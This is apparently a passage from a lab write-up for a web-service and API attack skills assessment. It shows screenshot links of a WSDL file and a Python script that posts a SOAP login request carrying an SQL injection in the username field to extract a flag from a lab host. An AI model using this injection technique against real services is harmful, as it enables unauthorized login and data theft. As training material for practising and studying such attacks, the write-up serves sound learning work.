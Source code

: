 ![Firefox - `wsdl.xml` 2](./assets/screenshots/web_service_and_api_attacks_skills_assessment_firefox_wsdl_xml_2.png)

![Firefox - `wsdl.xml` 3](./assets/screenshots/web_service_and_api_attacks_skills_assessment_firefox_wsdl_xml_3.png)

```python
import requests

payload = f'''<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><username>admin' OR password LIKE 'FLAG%' -- - </username><password></password></LoginRequest></soap:Body></soap:Envelope>'''
try:
   response = requests.post("http://10.129.209.121:3002/wsdl", data=payload, headers={"SOAPAction": '"Login"'}, timeout=5)
   print(response.text)
except requests.exceptions.Timeout:
    print("The request timed out.")
except requests.exceptions.RequestException as e:
    print(f"An error occurred: {e}")
```
